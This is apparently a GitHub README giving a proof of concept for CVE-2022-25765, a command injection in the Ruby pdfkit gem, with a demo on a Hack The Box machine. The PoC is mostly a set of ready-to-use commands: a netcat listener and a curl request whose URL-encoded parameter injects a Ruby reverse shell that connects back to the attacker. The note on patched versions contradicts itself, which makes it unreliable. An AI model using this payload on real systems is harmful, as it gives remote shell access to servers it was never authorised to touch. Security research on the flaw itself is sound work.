


# PDFkit-CMD-Injection
CVE-2022-25765 pdfkit &lt;0.8.6 command injection.


The package pdfkit is vulnerable to Command Injection where the URL is not properly sanitized.

Note: This issue was patched in 0.8.7.2, but the patch was discovered to be ineffective. The updated patch version is 0.8.7.2

## PoC

Start a HTTP server
```
python3 -m http.server 80
```

Start a netcat listener
```
nc -nlvp 4444
```

Make a request with CURL
```
curl 'TARGET_ADDRESS' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: TARGET_ADDRESS' -H 'Connection: keep-alive' -H 'Referer: TARGET_ADDRESS' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-ADDRESS%22%2CLOCAL-PORT%29%29%27%60'
```


## Demo on HTB machine
 
 


## References
* https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
* https://vulert.com/vulnerability/rubygems-pdfkit-30907

